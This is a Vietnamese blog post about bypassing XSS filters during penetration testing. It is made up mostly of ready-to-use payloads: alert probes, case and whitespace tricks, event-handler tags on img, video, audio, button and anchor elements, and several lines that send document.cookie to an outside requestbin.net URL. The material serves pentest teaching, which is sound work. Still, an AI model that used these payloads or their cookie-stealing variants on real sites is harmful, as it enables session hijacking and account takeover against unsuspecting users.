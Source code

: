 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message

```<script>alert(1);</script>```

### Dùng window location

```<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>```

### Dùng image

```<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>```

## Các payload sử dụng mask
### Case sensitive

```
<SCRIPT>alert(1);</SCRIPT>
<ScRipT>alert(1);</sCriPt>
```
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```<script  >alert(1);</script   >```

* Không dùng thẻ script

```
<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<input onblur=javascript:alert(1) autofocus><input autofocus>
<BODY ONLOAD=alert('XSS')>
<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>
<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>
```

